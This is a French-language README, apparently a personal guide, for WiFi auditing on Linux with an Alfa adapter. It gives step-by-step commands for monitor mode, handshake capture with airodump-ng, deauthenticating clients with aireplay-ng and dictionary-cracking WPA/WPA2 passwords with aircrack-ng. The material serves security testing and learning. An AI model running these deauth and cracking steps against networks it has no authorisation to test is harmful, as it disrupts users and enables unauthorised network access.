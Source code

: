 ## Installation
1. Prérequis : 
    - Un système Linux (Ubuntu, Debian, Fedora, etc.).
    - Les droits d'administration (commande sudo).
    - Accès à Internet pour télécharger les pilotes.
    
2. Pilotes :
    - `lsusb` : voir si la carte est reconnu en usb
    - `ip link show` : lister interfaces réseaux

    Si rien n'est affiché, rechercher les pilotes et regarder les logs :
        - Dans ce cas j'utilise une AWUS036ACHM : `dmesg | grep mt7610`
   
## Configurations
1. Fichier manquants pour le firmware : `/lib/firmware/mediatek/`
    - `mt7610u.bin` `mt7610e.bin` sont des fichiers de conf à importer dans `/lib/firmware/mediatek/`
    - `git clone git://git.kernel.org/pub/scm/linux/kernel/git/firmware/linux-firmware.git`

2. Recharger les pilotes 
    - `sudo rmmod mt76x0u`
    - `sudo modprobe mt76x0u`

3. Voir si une erreur est présente : `dmesg | grep firmware`


4. Kill les processus
    - `sudo airmon-ng check kill`
        Effet : Cette commande désactive les services responsables des interférences
        Remarque : Après l'audit, vous pouvez redémarrer ces services pour rétablir la gestion classique des connexions WiFi.
![Screenshot_20250526_094939](https://github.com/user-attachments/assets/93654c09-a287-4668-b1f7-52c9f2712781)


## UP la carte et mode monitor
![alfa 1](https://github.com/user-attachments/assets/bf2410dd-acee-4394-b5d3-f8a703d51151)

- `sudo iwconfig // sudo ifconfig` : Montre toutes les interfaces avec les mode des cartes.

- `sudo ifconfig "INTERFACE" down` : Désactive l'interface réseau.
- `sudo iwconfig "INTERFACE" mode monitor` : Active le mode monitor.
- `sudo iwconfig "INTERFACE" mode managed` : Active le mode managed (de base).
- `sudo ifconfig "INTERFACE" up` : Active l'interface réseau.

![alfa 2](https://github.com/user-attachments/assets/4f7cdc10-bcc9-45c6-a035-5c5d57db0191)


## COMMANDES
- `sudo airmon-ng start "INTERFACE"` `sudo airmon-ng stop "INTERFACE"` avec `sudo iw "INTERFACE" del`
    But : Active le mode monitor sur l'interface spécifiée.
    Pourquoi : airmon-ng simplifie la gestion du mode monitor et s'assure qu'il n'y a pas de conflit avec d'autres processus.
- `sudo iw dev` pour voir la carte
- `sudo airodump-ng "INTERFACE"`
    But : Affiche une liste des réseaux WiFi détectés.
    Pourquoi : Cela vous permet de repérer le réseau cible et de récupérer son BSSID, son canal (CH) et son nom (ESSID).
![alfa 3](https://github.com/user-attachments/assets/713b017e-7b15-4695-9f5a-b846c3b543ef)

- `sudo airodump-ng "INTERFACE" --bssid [BSSID] -c [CHANNEL] -w capture`
    Options détaillées :
        --bssid [BSSID] : Filtre les paquets pour capturer uniquement ceux provenant du point d'accès cible (adresse MAC).
        -c [CHANNEL] : Limite la capture au canal WiFi spécifié.
        -w capture : Enregistre les paquets capturés dans un fichier nommé capture-01.cap.
    Pourquoi : La capture est nécessaire pour récupérer une handshake WPA/WPA2, indispensable pour tenter de casser le mot de passe.
![alfa 5](https://github.com/user-attachments/assets/dd844221-6c9d-4a3e-a933-c335364a01a4)

- Lorsqu'une handshake est capturée, vous verrez une ligne similaire à ceci : WPA handshake: [BSSID]
- Si vous ne voyez pas de handshake, cela signifie que :
    Aucun appareil ne s'est connecté ou reconnecté.
    Vous devrez provoquer une déconnexion/reconnexion

- Déconnecter l'appareil avec aireplay-ng
    Une fois que vous avez l'adresse MAC de l'appareil, vous pouvez l'utiliser pour envoyer un paquet de déconnexion (deauth) via aireplay-ng :
    - `sudo aireplay-ng --deauth 10 -a [BSSID] -c [CLIENT_MAC] "INTERFACE"`
        --deauth 10 : Envoie 10 paquets de déconnexion (vous pouvez ajuster ce nombre selon vos besoins). Vous pouvez aussi envoyer un nombre plus élevé pour augmenter les chances de déconnexion.
        -a [BSSID] : L'adresse MAC de l'Access Point (routeur).
        -c [CLIENT_MAC] : L'adresse MAC du client (appareil à déconnecter).
        "INTERFACE" : L'interface WiFi en mode monitor. 
        Important : L'appareil ciblé devrait se déconnecter et tenter une reconnexion automatiquement, ce qui générera une handshake WPA/WPA2.
![alfa 6](https://github.com/user-attachments/assets/bd986815-e0e7-4cf1-9481-3244edf4bff4)

- Vérifier si il y a bien un handshake 
    - `sudo aircrack-ng file.cap` (1 handshake)
    - `sudo tshark -r file.cap eapol`
    Sinon
    - `sudo wireshark -r file.cap` et chercher des fichier oapol
    - `sudo tshark -r file.cap -Y "eapol && wlan.addr==CLIENT"`

![alfa 7](https://github.com/user-attachments/assets/7e01ba27-9759-4225-b1ec-9de4c9a67c3b)

![alfa 8](https://github.com/user-attachments/assets/e4029c69-9693-43f3-9d8e-ea6b1515737c)


- `sudo aircrack-ng -w [wordlist.txt] -b [BSSID] capture-01.cap`
    Options détaillées :
        -w [wordlist.txt] : Spécifie un fichier contenant une liste de mots de passe possibles.
        -b [BSSID] : Cible le point d'accès spécifié.
        capture-01.cap : Utilise le fichier de capture généré par airodump-ng.
    Pourquoi : Cette étape tente de casser le mot de passe en utilisant une attaque par dictionnaire.
![alfa 9](https://github.com/user-attachments/assets/883c16d7-9eb5-4b23-9aef-a5d433af1714)


## Restaurer les services après l’audit

Après avoir terminé, redémarrez les services pour reprendre une utilisation normale du WiFi :

- `sudo systemctl restart NetworkManager`
- `sudo systemctl restart wpa_supplicant`
